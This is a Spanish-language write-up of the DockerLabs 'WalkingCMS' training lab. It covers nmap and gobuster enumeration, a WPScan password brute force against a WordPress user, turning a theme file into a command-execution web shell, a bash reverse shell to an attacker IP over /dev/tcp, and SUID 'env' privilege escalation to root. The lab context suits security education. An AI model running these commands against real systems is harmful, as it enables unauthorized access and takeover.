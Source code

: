 # WalkingCMS

Pequeño Lab en modo **easy** de dockerlabs.

- [Reconocimiento](#reconocimiento)
- [Escaneo](#escaneo)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Escalada de privilegios](#escalada-de-privilegios)

<br/>

## Reconocimiento

Se asume que la máquina objetivo se encuentra correctamente desplegada dentro de nuestra red de laboratorio (en este caso, utilizando Docker).
Dado que la dirección IP del objetivo es proporcionada o fácilmente identificable dentro del entorno controlado, esta fase puede clasificarse como **reconocimiento pasivo**.

En un escenario real, el reconocimiento pasivo se orienta a recopilar información sin interactuar directamente con el sistema objetivo (por ejemplo, utilizando fuentes OSINT, registros públicos o información de infraestructura).
En este caso particular, al tratarse de un laboratorio aislado, la obtención de la IP se considera suficiente para dar inicio a la fase de enumeración activa.

![enter image description here](https://i.imgur.com/3XmtBs3.png)

<br/>

## Escaneo

Como primer paso, se realizó un escaneo general de puertos y servicios con la herramienta **Nmap**, con el objetivo de identificar qué servicios se encuentran expuestos en el sistema objetivo (target) y obtener un panorama inicial de la superficie de ataque.

El comando ejecutado fue el siguiente:

    nmap -p- --open -sC -sC -sV --min-rate 5000 -n -Pn 172.17.0.2

- **-p-** → Escanea todos los puertos TCP (1 al 65535).

- **--open** → Muestra únicamente los puertos abiertos.

- **-sC** → Ejecuta los scripts por defecto de Nmap (NSE) para detección básica de vulnerabilidades y configuraciones inseguras.

- **-sV** → Intenta identificar la versión de los servicios en ejecución.

- **--min-rate** 5000 → Acelera el escaneo estableciendo un mínimo de 5000 paquetes por segundo.

- **-n** → Evita la resolución DNS para mayor rapidez.

- **-Pn** → Omite la fase de descubrimiento de host (se asume que el host está activo).

- **172.17.0.2** → Dirección IP asignada a la máquina víctima dentro del entorno Docker.

![enter image description here](https://i.imgur.com/1WvtOWR.png)

### Resultados del escaneo

El escaneo realizado con Nmap reveló que el puerto **80/tcp** se encuentra abierto y asociado al servicio HTTP. Esto indica la presencia de un servidor web en ejecución dentro del objetivo.

Con esta información inicial, se procedió a validar el hallazgo accediendo mediante un navegador a la dirección: `http://172.17.0.2` De esta manera, se confirma la existencia de un servicio web activo en el sistema. A partir de este punto, se iniciará la fase de enumeración web, con el fin de identificar posibles directorios ocultos, archivos sensibles o vulnerabilidades presentes en la aplicación expuesta. que hay un servicio web en efecto.

![enter image description here](https://i.imgur.com/RAoQPtY.png)

<br/>

### Enumeración

El objetivo de esta fase es detectar posibles rutas ocultas o sensibles que puedan ser utilizadas para obtener información adicional del sistema o ser explotadas como vectores de ataque.

Para esta tarea se empleó la herramienta **Gobuster**, la cual permite realizar un ataque de fuerza bruta sobre el árbol de directorios utilizando listas de palabras previamente definidas.

    gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,txt,html,php.bak

**Nota**: Podríamos tener en cuenta las siguientes consideraciones antes de usar el gobuster:

- **seclists** → Es un directorio genérico de diccionarios que se pueden instalar en parrot y kali utilizando `sudo apt install seclists`
- **-x** → Es para definir las extensiones que queremos encontrar al escanear la web.

![enter image description here](https://i.imgur.com/Acs91Dy.png)

Tras la ejecución de Gobuster, se identificaron varios directorios accesibles dentro del servidor web. Entre ellos, uno de especial interés corresponde a `http://172.17.0.2/wordpress` por lo que si nos dirigimos al enlace visualizaremos una página de inicio.

![enter image description here](https://i.imgur.com/qAyX6Nu.png)

Una vez identificado el directorio `/wordpress`, se determinó que el servicio corresponde a un CMS WordPress.
Dado que este tipo de plataformas son propensas a vulnerabilidades relacionadas con su versión, plugins y temas instalados, se decidió realizar un análisis de seguridad empleando la herramienta **WPScan**.

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp

![enter image description here](https://i.imgur.com/inH5Nxo.png)
![enter image description here](https://i.imgur.com/tSSdBwY.png)

Utilizar algun script con payloads personalizados o desde metasploit también sería una buena opción, para aprovechar el **xmlrpc** ya que practicamente es un fósil que presenta riesgos de seguridad.
Se identificó también que hay un tema activo y es el **twenty twentytwo**, algo que podría ser utilizado para explotar o algún plugin que tenga sus fallas o malas configuraciones a simple vista. En este caso el theme parece ser accessible desde una ruta en el navegador.
Por otro lado, hay un usuario llamado "mario" que podría resultar útil en un ataque de fuerza bruta, es por esto que se decide escanear nuevamente con el **wpscan** y añadirle nuevos parámetros como un diccionario de combinaciones de passwords como lo es rockyou y un usuario.

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp --passwords /home/criollo/rockyou.txt --usernames mario --random-user-agent

![enter image description here](https://i.imgur.com/CQAVinl.png)

Con un ataque automático de brute force realizado por el wpscan y utilizando nuestro diccionario de combinaciones obtenemos la contraseña.
Si analizamos nuevamente con el gobuster pero utilizando el directorio de wordpress, encontraríamos otros resultados que nos ayudarían a conseguir la forma de loguear o utilizar las credenciales que obtuvimos.

![enter image description here](https://i.imgur.com/MfPg9z8.png)

<br/>

## Explotación

A continuación, podremos notar que:

    http://172.17.0.2/wordpress/wp-login.php

Es una ruta que parece llevarnos al inicio de sesión de nuestro Wordpress, si intentamos con las credenciales y obtenemos acceso a la dashboard de la plataforma.
![enter image description here](https://i.imgur.com/Tcr1UUP.png)

Directamente se tuvo muy encuenta la revelación del wpscan con respecto al tema twenty twenty por lo que al saber que se puede acceder desde `http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php`
Podriamos usarlo para realizar una reverse shell editando el index.php, para eso dentro de la dashboard se posiciona en `Apariencia>Theme Code Editor`, luego se ubica el index.php y se editar, reemplazando el código original por un código php básico donde se reciba el query param **cmd**, una vez lo modifiquemos, le damos a **Update File** y ya podríamos acceder a la ruta del tema utilizando parámetros que en esta ocasión sería cmd=COMANDO.
![enter image description here](https://i.imgur.com/diWBn6X.png)

Un claro ejemplo de esto sería ejecutar un comando a nivel de terminal en linux (esta máquina es debian) como es el `ls` y obtener algo como:

![enter image description here](https://i.imgur.com/XZDGpMy.png)

### Reverse shell

Debido a que funciona, se puede utilizar un código en bash para ejecutar una reverse shell que nos permita establecer conexión desde shell. En este caso podríamos usar la de bash encontrada en [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), donde la IP será de nuetra máquina atacante al igual que el puerto de escucha.

Ejemplo:

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Aplicado sería:

    http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.0.1/443 0>%261"

**Notas**:

- Con el código de `%26`reemplazamos a la **&** y mejoramos la inyección de comando evitando errores.
- Se utilizó el puerto 443 en lugar del 8080
- Antes de ejecutar el webshell se utilizó netcat para ponerse a la escucha con el puerto designado `sudo nc -lvnp 443`

Luego de ejecutar el comando en la Web shell, conseguimos establecer conexión con nuestra máquina.
![enter image description here](https://i.imgur.com/dpYnHCI.png)

<br/>

### Escalada de privilegios

Moviéndose al `/home`se pueden buscar archivos en la raíz que permitan ser explotados o ejecutados para conseguir el `root`de la máquina.

    find / -perm -4000 2>/dev/null

![enter image description here](https://i.imgur.com/3lkIOGD.png)

Buscando en [GTFObins](https://gtfobins.github.io/gtfobins/env/) , `env` podría ser explotado de la siguiente manera con SUID obteniendo escalada de privilegios:

```
sudo install -m =xs $(which env) .

./env /bin/sh -p
```

Por lo que si lo aplicamos a nuestra máquina...
![enter image description here](https://i.imgur.com/HAivnyT.png)

Logramos comprometerla y obtener el usuario root.

_Written by **kur0bai**_

